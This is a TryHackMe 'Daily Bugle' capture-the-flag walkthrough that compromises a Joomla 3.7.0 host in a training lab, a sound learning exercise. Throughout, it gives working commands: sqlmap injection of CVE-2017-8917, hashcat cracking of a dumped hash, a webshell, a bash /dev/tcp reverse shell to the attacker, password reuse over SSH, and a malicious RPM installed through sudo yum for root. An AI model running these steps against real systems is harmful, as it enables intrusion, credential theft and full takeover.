

| Category          | Details                                                                                         |
|-------------------|-------------------------------------------------------------------------------------------------|
| 📝 **Name**       | [Daily Bugle](https://tryhackme.com/room/dailybugle)                                            |  
| 🏷 **Type**       | THM Challenge                                                                                   |
| 🖥 **OS**         | Linux                                                                                           |
| 🎯 **Difficulty** | Hard                                                                                            |
| 📁 **Tags**       | Joomla 3.7.0, [CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917), sqlmap, sudo yum |

## Task 1: Deploy

### Access the web server, who robbed the bank?

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/THM Daily Bugle]
└─$ nmap -sS -sC -sV -p- $TARGET   
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-16 19:04 +0100
Nmap scan report for 10.81.163.31
Host is up (0.039s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-title: Home
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.48 seconds
```

#### Access web server
```
┌──(magicrc㉿perun)-[~/attack/THM Daily Bugle]
└─$ curl -s http://$TARGET | grep "robs bank" | head -n 1
                        Spider-Man robs bank!           </a>
```

## Task 2: Obtain user and root

### What is the Joomla version?

#### Check Joomla version
```
┌──(magicrc㉿perun)-[~/attack/THM Daily Bugle]
└─$ curl -s http://$TARGET/administrator/manifests/files/joomla.xml | grep -oP "<version>\K.[^<]+"
3.7.0
```
This version is vulnerable to [CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917) SQLi.

### What is Jonah's cracked password?

#### Exploit [CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917) with `sqlmap`
```
┌──(magicrc㉿perun)-[~/attack/THM Daily Bugle]
└─$ sqlmap -u "http://$TARGET/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --batch -p list[fullordering]      
<SNIP>
GET parameter 'list[fullordering]' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 2746 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 8741 FROM(SELECT COUNT(*),CONCAT(0x716a6a7871,(SELECT (ELT(8741=8741,1))),0x716a627171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6862 FROM (SELECT(SLEEP(5)))kbBt)
---
<SNIP>
```

#### List databases
```
┌──(magicrc㉿perun)-[~/attack/THM Daily Bugle]
└─$ sqlmap -u "http://$TARGET/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --batch --dbs
<SNIP>
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
<SNIP>
```

#### List tables in `joomla` database
```
┌──(magicrc㉿perun)-[~/attack/THM Daily Bugle]
└─$ sqlmap -u "http://$TARGET/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --batch -D joomla --tables
Database: joomla
[72 tables]
+----------------------------+
<SNIP>
| #__user_keys               |
| #__user_notes              |
| #__user_profiles           |
| #__user_usergroup_map      |
| #__usergroups              |
| #__users                   |
<SNIP>
+----------------------------+
```

#### Query user credentials
```
┌──(magicrc㉿perun)-[~/attack/THM Daily Bugle]
└─$ sqlmap -u "http://$TARGET/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --batch -D joomla --sql-query='SELECT name, username, password FROM `#__users`'
<SNIP>
[07:36:47] [INFO] fetching SQL SELECT statement query output: 'SELECT name, username, password FROM `#__users`'
[07:36:47] [INFO] resumed: 'Super User'
[07:36:47] [INFO] retrieved: 'jonah'
[07:36:47] [INFO] resumed: '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
SELECT name, username, password FROM `#__users`: 'Super User,jonah,$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
<SNIP>
```

#### Crack password for user `jonah`
```
┌──(magicrc㉿perun)-[~/attack/THM Daily Bugle]
└─$ hashcat -m 3200 '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /usr/share/wordlists/rockyou.txt --quiet
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:spiderman123
```

### What is the user flag?

#### Use `jonah:spiderman123` credentials to install [webshell](https://github.com/p0dalirius/Joomla-webshell-plugin) plugin


#### Confirm webshell installed
```
┌──(magicrc㉿perun)-[~/attack/THM Daily Bugle]
└─$ curl http://$TARGET/modules/mod_webshell/mod_webshell.php -d "action=exec&cmd=id"
{"stdout":"uid=48(apache) gid=48(apache) groups=48(apache)\n","stderr":"","exec":"id"}
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/THM Daily Bugle]
└─$ nc -lvnp 4444     
listening on [any] 4444 ...
```

#### Spawn reverse shell using webshell
```
┌──(magicrc㉿perun)-[~/attack/THM Daily Bugle]
└─$ CMD=$(echo "/bin/bash -c 'bash -i >& /dev/tcp/$LHOST/4444 0>&1'" | jq -sRr @uri) && \
curl http://$TARGET/modules/mod_webshell/mod_webshell.php -d "action=exec&cmd=$CMD"
```

#### Confirm foothold gained
```
connect to [192.168.130.56] from (UNKNOWN) [10.81.179.68] 56492
bash: no job control in this shell
bash-4.2$ id
uid=48(apache) gid=48(apache) groups=48(apache)
```

#### Discover database password in Joomla configuration
```
bash-4.2$ grep password /var/www/html/configuration.php
        public $password = 'nv5uz9r3ZEDzVjNu';
```

#### Reuse database password to access target over SSH as user `jjameson`
```
┌──(magicrc㉿perun)-[~/attack/THM Daily Bugle]
└─$ ssh jjameson@$TARGET
jjameson@10.81.179.68's password: 
Last login: Mon Dec 16 05:14:55 2019 from netwars
[jjameson@dailybugle ~]$ id
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
```

#### Capture user flag
```
[jjameson@dailybugle ~]$ cat /home/jjameson/user.txt 
27a260fe3cba712cfdedb1c86d80442e
```

### What is the root flag?

#### List allowed `sudo` commands
```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME
    LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

#### Generate the root shell RPM package with `fpm` and upload it to the target
```
┌──(magicrc㉿perun)-[~/attack/THM Daily Bugle]
└─$ echo '/bin/cp /bin/bash /tmp/root_shell && /bin/chmod +s /tmp/root_shell' > root_shell.sh && \
fpm -n root-shell -s dir -t rpm -a all --before-install root_shell.sh . && \
scp root-shell-1.0-1.noarch.rpm jjameson@$TARGET:~/
Created package {:path=>"root-shell-1.0-1.noarch.rpm"}
jjameson@10.81.140.50's password: 
<SNIP>
```

#### Install malicious package
```
[jjameson@dailybugle ~]$ sudo yum localinstall -y root-shell-1.0-1.noarch.rpm
Loaded plugins: fastestmirror
Examining root-shell-1.0-1.noarch.rpm: root-shell-1.0-1.noarch
Marking root-shell-1.0-1.noarch.rpm to be installed
Resolving Dependencies
--> Running transaction check
---> Package root-shell.noarch 0:1.0-1 will be installed
--> Finished Dependency Resolution

Dependencies Resolved

====================================================================================================================================================================================================
 Package                                       Arch                                      Version                                  Repository                                                   Size
====================================================================================================================================================================================================
Installing:
 root-shell                                    noarch                                    1.0-1                                    /root-shell-1.0-1.noarch                                    158 k

Transaction Summary
====================================================================================================================================================================================================
Install  1 Package

Total size: 158 k
Installed size: 158 k
Downloading packages:
Running transaction check
Running transaction test
Transaction test succeeded
Running transaction
  Installing : root-shell-1.0-1.noarch                                                                                                                                                          1/1 
  Verifying  : root-shell-1.0-1.noarch                                                                                                                                                          1/1 

Installed:
  root-shell.noarch 0:1.0-1                                                                                                                                                                         

Complete!
```

#### Use created root shell to escalate to `root`
```
[jjameson@dailybugle ~]$ /tmp/root_shell -p
root_shell-4.2# id
uid=1000(jjameson) gid=1000(jjameson) euid=0(root) egid=0(root) groups=0(root),1000(jjameson)
```

#### Capture root flag
```
root_shell-4.2# cat /root/root.txt 
eec3d53292b1821868266858d7fa6f79
```